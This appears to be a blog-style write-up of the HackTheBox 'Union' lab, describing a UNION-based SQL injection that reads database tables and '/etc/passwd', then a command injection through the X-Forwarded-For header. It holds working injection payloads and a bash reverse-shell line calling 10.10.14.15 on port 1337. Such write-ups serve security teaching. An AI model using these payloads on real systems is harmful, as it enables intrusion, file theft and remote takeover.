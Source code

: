```yaml
---
layout: post
title: "Union"
date: 2024-12-28
author: cotes
categories: [Writeup, HackTheBox]
tags: [HTB, Writeup, Security]
pin: true
math: true
mermaid: true
image:
  path: /assets/img/commons/hackthebox.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hackthebox Image
---
```


first nmap scan , only port 80 is open 
![[Pasted image 20240524161744.png]]



There's definitely something here our input is checked on db , but how can we inject our sql query on it 
![[Pasted image 20240524164641.png]]

let's check sqlmap 
![[Pasted image 20240524162539.png]]

sqlmap didn't find anything 


but if we try a manual , UNION injection we can see a different response that may lead to sql injection

![[Pasted image 20240524164820.png]]

we can use this to enumerate database

the database used is ==november==
![[Pasted image 20240524164945.png]]
the use is ==uhc@localhost==
![[Pasted image 20240524165106.png]]

we an get the tables using 
`' UNION SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES Where table_schema='november'--  `
![[Pasted image 20240524165512.png]]

so the tables is ==flag==
we can try to read the content of this table using
`' UNION SELECT * from november.flag--  `
![[Pasted image 20240524165638.png]]

UHC{F1rst_5tep_2_Qualify} , if we take a look at challenge.php we will notice that the page is asking for a flag 

if we submit it , we can got ssh open to our ip
![[Pasted image 20240524170203.png]]

but we need credential to ssh into machine , let's try to read files on the machine using sql injection 
`' UNION SELECT LOAD_FILE('/etc/passwd')--  `
![[Pasted image 20240524170450.png]]

Now we can read file , let's read the php files 
if we check the firewall.php 

`' UNION SELECT LOAD_FILE('/var/www/html/firewall.php')--  `
![[Pasted image 20240524170736.png]]

we can see that we can inject code in header 
`<section class="bg-dark text-center p-5 mt-4">

<?php
  if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
  } else {
    $ip = $_SERVER['REMOTE_ADDR'];
  };
  system("sudo /usr/sbin/iptables -A INPUT -s " . $ip . " -j ACCEPT"); 
?>
              

if we use HTTP_X_FORWARDED_FOR we can inject our code into this header

``
`X-FORWARDED-FOR: ;bash -c 'exec bash -i &>/dev/tcp/10.10.14.15/1337 <&1';

![[Pasted image 20240524175113.png]]

![[Pasted image 20240524175152.png]]

